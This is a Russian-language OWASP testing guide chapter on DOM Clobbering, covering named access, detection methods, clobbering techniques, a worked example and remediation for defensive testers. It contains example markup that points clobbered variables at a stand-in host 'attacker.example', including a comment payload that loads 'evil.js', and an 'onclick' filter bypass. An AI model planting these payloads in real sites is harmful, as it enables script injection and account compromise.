


# Затирание DOM (DOM Clobbering)

| ID |
| --- |
| WSTG-CLNT-16 |

## Резюме

Браузеры предоставляют доступ к некоторым элементам HTML как к свойствам объектов JavaScript — устаревшая возможность, известная как именованный доступ (named access):

- Каждый элемент с атрибутом `id` становится свойством глобального объекта `window`. Атрибут `name` элементов `embed`, `form`, `img` и `object` действует аналогично.
- Атрибут `name` элементов `embed`, `form`, `iframe`, `img` и `object` создает свойство в объекте `document`. В отличие от свойств `window`, эти именованные свойства имеют приоритет над встроенными свойствами объекта `document`.
- Элементы управления внутри тега `form` (такие как `input`) становятся свойствами этой формы по своим атрибутам `id` или `name`, а также имеют приоритет над встроенными свойствами формы.

Например, разметка `<a id="config"></a>` приводит к тому, что `window.config` начинает ссылаться на данный элемент ссылки, даже если ни один скрипт никогда не объявлял переменную `config`. Сама [спецификация HTML](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object) предупреждает, что опора на такое поведение делает код ненадежным и хрупким.

Затирание DOM (DOM Clobbering) — это атака, злоупотребляющая механизмом именованного доступа. Злоумышленник внедряет разметку с выбранными значениями `id` или `name`, так что переменная или свойство, считываемое кодом JavaScript приложения, начинает указывать на подконтрольный атакующему HTML-элемент вместо ожидаемого значения или вместо состояния `undefined`. Это становится возможным, когда приложение:

- Разрешает пользователям вводить HTML (например, в комментариях, описаниях профиля, визуальных редакторах или Markdown-рендерерах) и сохраняет атрибуты `id` и `name`. Многие HTML-санитизаторы разрешают эти атрибуты по умолчанию, поскольку сами по себе они не способны исполнять код.
- Содержит скрипты, которые считывают глобальную переменную либо свойство `document` или формы, которые могут быть не определены, и используют их в критичных с точки зрения безопасности операциях.

Поскольку для проведения атаки требуется только разметка HTML, она работает в условиях, когда прямое внедрение скриптов заблокировано. В зависимости от того, как используется затертое значение, последствия могут включать:

- [Межсайтовый скриптинг (XSS)](01.%20DOM-based%20Cross%20Site%20Scripting.md), например, когда значение подставляется в атрибут `src` скрипта.
- [Открытое перенаправление (Open Redirect)](04.%20Client-side%20URL%20Redirect.md), когда значение присваивается `location`.
- Обход клиентских проверок безопасности — например, `if (window.isAdmin)`.
- Обход клиентских HTML-фильтров путем нарушения работы свойств, на которые они полагаются (например, `attributes`).
- Обход политики защиты контента (CSP), использующей директиву `strict-dynamic`, когда доверенный скрипт загружает URL из затертого значения, как описано в статье [Bypassing CSP via DOM Clobbering](https://portswigger.net/research/bypassing-csp-via-dom-clobbering).

Известным примером является XSS в механизме динамических писем Gmail (AMP4Email), [обнаруженный Михалом Бентковским (Michał Bentkowski) в 2019 году](https://research.securitum.com/xss-in-amp4email-dom-clobbering/), где DOM Clobbering использовался для обхода встроенных средств защиты от XSS.

DOM Clobbering затрагивает только те ссылки, которые само приложение явно не определило. Глобальная переменная, объявленная через `var` или `function`, имеет приоритет над элементом с тем же `id` как в качестве переменной, так и в качестве свойства `window`. Переменная, объявленная через `let` или `const`, не становится свойством `window`: код, обращающийся к ней по имени, получает объявленное значение, однако выражение `window.x` все равно вернет HTML-элемент.

## Цели тестирования

- Идентифицировать точки внедрения, где пользовательский HTML сохраняет атрибуты `id` или `name`.
- Найти скрипты, считывающие глобальные переменные, свойства `document` или свойства формы, которые могут быть неопределенными, и передающие их в чувствительные операции.
- Оценить, приводит ли затирание этих ссылок к изменению поведения приложения.

## Методика тестирования

### Тестирование методом «черного ящика»

#### Определение точек инъекции, сохраняющих атрибуты `id` и `name`

Найдите все места, где пользовательский ввод отрисовывается в виде HTML, как описано в разделе [HTML Injection](03.%20HTML%20Injection.md). Для каждой точки внедрения отправьте тестовый безопасный зонд с уникальными значениями:

```html
<a id="wstgprobe" name="wstgprobe" href="https://example.com/wstgprobe">probe</a>

```

Затем откройте страницу, где отображается введенный контент, и проверьте результат в инструментах разработчика браузера:

- На панели Elements проверьте, какие атрибуты сохранились после очистки (санитизации).
- В панели Console выполните выражения `window.wstgprobe` и `document.wstgprobe2`. Если любое из них возвращает элемент вместо `undefined`, данная точка внедрения способна затирать ссылки.

Санитизаторы могут удалять специфические значения, сохраняя сам атрибут. Например, [DOMPurify](https://github.com/cure53/DOMPurify) удаляет значения `id` и `name`, конфликтующие со встроенными свойствами `document` или формы (такими как `cookie` или `action`), но оставляет безопасные значения, например `config`. Поскольку результат зависит от конкретного имени, проверьте также те идентификаторы, к которым приложение реально обращается в коде, как описано в следующем подразделе.

#### Выявление перезаписываемых ссылок

Изучите код JavaScript, загружаемый страницей, используя вкладку Sources инструментов разработчика для форматирования минифицированного кода. Ищите ссылки на переменные, которые могут оказаться неопределенными, обращая особое внимание на следующие паттерны:

- Значения по умолчанию, берущиеся из глобального объекта: например, `const config = window.config || {};`
- Проверки, тестирующие лишь факт существования глобального объекта: например, `if (window.isAdmin)` или `if (typeof debugMode !== "undefined")`. Элемент DOM в логическом контексте вычисляется как истина (truthy), а его тип равен `"object"`, поэтому обе проверки успешно пройдут, как только переменная будет затерта.
- Свойства, считываемые из `document` по имени: например, `document.settings`.
- Код, считывающий встроенные свойства формы или элемента, который может содержать разметку пользователя: например, `form.action` или `element.attributes`.

Затем проследите путь каждого кандидата до приёмника (sink). Представляющие интерес приёмники включают атрибуты `src` элементов `script` или `iframe`, присваивания объекту `location`, атрибуты `href`, свойство `innerHTML`, а также функции, исполняющие строки (такие как `eval()` или `setTimeout()`). Режим DOM Clobbering в инструменте [DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/dom-clobbering) позволяет автоматизировать поиск затираемых ссылок, достигающих опасных приёмников.

#### Техники затирания (Clobbering)

После выявления целевой ссылки и точки инъекции выберите разметку, которая присвоит ссылке значение, необходимое для реализации атаки.

|Technique|Example markup|Result|
|---------|--------------|------|
|Single global|`<a id="x">`|`window.x` ссылается на элемент ссылки.|
|Controlled string value|`<a id="x" href="https://attacker.example/">` или `<area id="x" href="https://attacker.example/">`|`String(window.x)` возвращает значение атрибута `href`.|
|Second-level property|`<a id="x"><a id="x" name="y" href="https://attacker.example/">`|`window.x` является коллекцией `HTMLCollection`, а `String(window.x.y)` возвращает значение `href`.|
|Nested frame|`<iframe name="x" srcdoc="<a id='y' href='https://attacker.example/'></a>">`|`window.x` представляет собой window фрейма, и после загрузки фрейма `String(window.x.y)` возвращает значение `href`.|
|Form controls|`<form id="x"><input id="y">`|`window.x.y` ссылается на элемент input.|
|Built-in `document` property|``|`document.cookie` возвращает элемент img вместо реальных cookie.|
|Built-in form property|`<form id="x"><input id="attributes">`|`window.x.attributes` возвращает элемент input вместо списка атрибутов.|

Некоторые нюансы этих техник имеют решающее значение при составлении полезной нагрузки:

- Большинство элементов при неявном приведении к строке преобразуются в значения вида `[object HTMLInputElement]`. Однако элементы `a` и `area` преобразуются непосредственно в значение своего атрибута `href`, что делает их стандартным выбором, когда ссылка используется в строковом контексте (например, в качестве URL). Сюда входят и URI схемы `javascript:`.
- Когда два или более элемента имеют одинаковый `id`, глобальная переменная начинает ссылаться на коллекцию `HTMLCollection`. В этом случае атрибут `name` элемента внутри коллекции становится свойством самой коллекции, что дает возможность контролировать свойства на один уровень глубже.
- Техника с вложенным фреймом работает только в том случае, если санитизатор разрешает теги `iframe` с атрибутом `srcdoc`. Фрейм загружается асинхронно, поэтому `window.x.y` остается `undefined`, если скрипт считывает его немедленно; эта техника эффективна, когда обращение к свойству происходит после завершения загрузки фрейма (например, в обработчике событий или по таймеру).
- Затирание встроенных свойств формы способно сломать инспектирующие фильтры. Например, фильтр, удаляющий обработчики событий обходом `form.attributes`, пропустит атрибут `onclick` у тега `<form onclick="alert(1)"><input id="attributes">`, поскольку свойство `attributes` теперь указывает на элемент input, не имеющий свойства `length`.

#### Пример: затирание URL-адреса скрипта

Рассмотрим страницу, которая отображает комментарии пользователей после их очистки библиотекой DOMPurify со стандартными настройками и загружает опциональный скрипт следующим кодом:

```javascript
const config = window.config || {};
const script = document.createElement("script");
script.src = config.url || "/static/default.js";
document.body.appendChild(script);
```

Приложение никогда не объявляет переменную `window.config`, поэтому в штатном режиме оно загружает файл `/static/default.js`. Злоумышленник публикует следующий комментарий:

```html
<a id="config"></a><a id="config" name="url" href="https://attacker.example/evil.js"></a>
```

Санитизатор оставляет комментарий без изменений, так как он содержит только элементы ссылок с атрибутами `id`, `name` и `href`. На странице, где отображается комментарий:

1. Два элемента имеют одинаковый `id="config"`, поэтому `window.config` становится объектом `HTMLCollection`.
2. Выражение `config.url` обращается к ссылке с `name="url"`.
3. Присваивание свойства элементу `script.src` приводит к неявному преобразованию ссылки в строку, возвращая значение её атрибута `href`.
4. Браузер загружает и исполняет `https://attacker.example/evil.js` в контексте безопасности приложения.


*Figure 4.11.16-1: DOM Clobbering Attack Flow*

Чтобы продемонстрировать проблему без выполнения внешнего кода, введите в консоли браузера после рендеринга комментария выражения `window.config`, `config.url` и `String(config.url)`. Последнее выражение вернет URL атакующего вместо `undefined`. В следующем примере страница уже попыталась загрузить сценарий с домена злоумышленника.


*Figure 4.11.16-2: Clobbered Value in the Browser Console*

### Тестирование методом «серого ящика»

При наличии доступа к клиентскому исходному коду и конфигурации санитизатора убедитесь в следующем:

- Код, исполняемый на страницах с пользовательским HTML, явно объявляет свои переменные и обращается к ним напрямую, а не через свойства `window` или `document`.
- Значения, считываемые из `window`, `document` или элементов форм, проверяются по типу перед использованием (например, с помощью `typeof value === "string"` или `instanceof`), а не просто проверяются на существование.
- Конфигурация санитизатора не разрешает атрибуты `id` и `name` в пользовательском контенте без строгой необходимости. Если они требуются, проверьте, изолирует ли их санитизатор (например, с помощью опции `SANITIZE_NAMED_PROPS` в DOMPurify, которая добавляет префикс `user-content-` к этим значениям). Также убедитесь, что опция DOMPurify `SANITIZE_DOM`, включенная по умолчанию, не была деактивирована.
- Пользовательские или клиентские HTML-фильтры не опираются на свойства вроде `attributes`, `childNodes` или `nodeName` без предварительной валидации того, что они не были затерты.

## Рекомендации по устранению

- Явно объявляйте переменные и обращайтесь к ним напрямую вместо чтения необъявленных глобальных свойств, а также избегайте паттернов вида `window.x || {}`.
- Выполняйте строгую валидацию типов значений, считываемых из DOM, перед передачей их в приёмники (sinks).
- Проводите санитизацию пользовательского HTML с помощью библиотек с встроенной защитой от DOM Clobbering и изолируйте пользовательские значения `id` и `name` от пространства имен приложения.

Подробности приведены в шпаргалке [DOM Clobbering Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html).

## Инструменты

- [Burp Suite - DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/dom-clobbering)
- Встроенные инструменты разработчика браузера (панели Elements, Sources и Console)

## Ссылки и материалы

### Ресурсы OWASP

- [DOM Clobbering Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html)

### Технические документы и статьи

- [PortSwigger Web Security Academy: DOM Clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [Gareth Heyes: Bypassing CSP via DOM Clobbering](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [Michał Bentkowski: XSS in AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)
- [HTML Living Standard: Named Access on the Window Object](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object)
- [HTML Living Standard: Document Named Properties](https://html.spec.whatwg.org/multipage/dom.html#dom-document-nameditem)
- [DOMPurify](https://github.com/cure53/DOMPurify)
